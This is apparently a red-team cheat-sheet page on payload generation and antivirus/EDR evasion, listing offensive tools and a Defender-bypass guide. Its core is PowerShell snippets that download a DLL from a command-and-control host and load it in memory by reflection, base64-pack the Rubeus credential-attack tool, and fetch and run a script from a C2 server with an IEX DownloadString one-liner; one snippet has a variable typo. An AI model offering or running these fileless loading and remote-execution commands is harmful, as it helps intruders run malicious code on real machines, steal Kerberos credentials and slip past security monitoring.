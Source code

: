 # Payload Generation & AV/EDR Evasion Tips + Devops


## Tools
* [OffensivePipeline](https://github.com/aetsu/OffensivePipeline)
* [ConfuserEx](https://github.com/mkaring/ConfuserEx)
* [PowerStrip](http://github.com/Yoda66/PowerStrip)
* [NetLoader](https://github.com/Flangvik/NetLoader)
* [SharpPack](https://github.com/mdsecactivebreach/SharpPack)

---
## Awesome Resources:
* [Arty-hlr - How to bypass Defender in a few easy steps](https://arty-hlr.com/blog/2021/05/06/how-to-bypass-defender/)

---
## Loading via System Reflection Assembly[^1]
### Load DLL
```
$w = new-object system.net.webclient
$p = w$.Downloaddata("https://c2.domain.com/dllfile")
[system.reflection.assembly]::Load($p)
$a = new-object namespace.class
$a.method()
```

### Example: Rubeus[^2]
* Convert Exe file to Base64 via powershell
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
```
* Create a `ps1` file (i.e. *rubeus.ps1*) with the contents below but replace the `<BASE64dRubeus>` with the base64 output of the command above (`rubeus.txt`)
    * This step will save a lot of time rather than executing the base64 output directly and pasting a lot of characters to your (remote) powershell terminal.
```powershell
$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("<BASE64dRubeus>"))
```
* Download via your c2
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("https://<c2>:443/rubeus.ps1")
```

[^1]: [Move Aside Script Kiddies–Malware Execution in the Age of Advanced Defenses | Joff Thyer ](https://www.youtube.com/watch?v=wTmQ5FaRmf4)
[^2]: [Github - Ghostpack - Rubeus](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
